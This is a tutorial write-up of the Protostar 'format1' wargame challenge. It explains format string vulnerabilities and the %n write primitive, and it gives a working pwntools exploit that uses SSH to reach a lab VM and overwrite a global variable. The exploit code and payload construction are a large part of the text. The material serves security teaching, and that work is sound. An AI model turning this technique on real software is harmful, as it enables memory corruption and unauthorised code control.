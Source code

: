# Format1

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}

```

Goal : overwrite the content of "target"


First of all, the format string vulnerability is located in the call of "printf" in vuln(), actually 
we are controlling the char pointer "string". So basically we can inject format specifier like "%x", "%p" to leak
value from the stack.


With the format specifier %n we can write on the stack. Actually 
%n will write the number of bytes printed before it at a specific address (that we choose).

example:

```c
#include <stdio.h>


int main(int argc, char **argv){
    int asd=0;           //  asd is initialized to 0

    printf("AAAABBBB%n\n",&asd);  // AAAABBBB is 8 bytes  , 8 will be assign to asd
    printf("asd value is %d\n", asd); 
}

```

This will output: 

```
AAAABBBB
asd value is 8
```


Ok, so we can modify the content of variable with the format specifier %n but how to modify a variable that we cannot control ?


The idea is to write ourself **the address** of "target" in the buffer that we control, to **point** on this address and  then use the format specifier "%n"
to change his value.


So to overwrite the content of "target" we need to find the address of target and use %n to write at this address.


## address of "target" :

```bash
user@protostar:~$ objdump -t /opt/protostar/bin/format1 | grep target
08049638 g     O .bss	00000004              target
```

"target" is global variable and it is non initialized , which mean it is located in the BSS section.


0x08049638 => \x38\x96\x04\x08  (in little endian format)

## Small tips : 

In C we can use a format specifier to access an argument at a specific postion:

ex : printf("%3$x", 1,23,16); // output  0x10 = 16 which is the third argument

The format specifier %p will print the value in hex with the prefix 0x... whereas the 
format specifier %x print only in hex without the prefix 0x.


Time to  write our exploit: 


# paylaod:

```python

from pwn import *

target_add='\x38\x96\x04\x08' # address of "target"

r = ssh(host="192.168.160.128" , user="user", password="user")

postion_in_stck=0
for i in range(200):  
    payload = bytes('AABBBBAA%{}$8p'.format(i).encode())  # first we are trying to find BBBB in the stack  
    format1 = r.run(["/opt/protostar/bin/format1" , payload]) # running format1 with argv[1] :  "%i$8p"  
    output= format1.recv().decode()
    
    print(output)
    if "42424242" in  output:  # once we found BBBB on the stack 
        print("position in the stack : ", i , " : " ,output) # we print the position in the stack of our BBBB 
        postion_in_stck = i # we save the position in the stack where we  control BBBB
        break
    
    format1.close()



finalPayload ='AA{}AA%{}$8n'.format(target_add,postion_in_stck ) # here we replace BBBB by the address of "target" where we have control in the stack
print("[+] PAYLOAD : " , finalPayload) 
format1 = r.run(["/opt/protostar/bin/format1" , finalPayload])
print(format1.recv())
format1.close()
```

We execute our script aaaannnd we have modify "target"

![target modify](target_modify.gif)
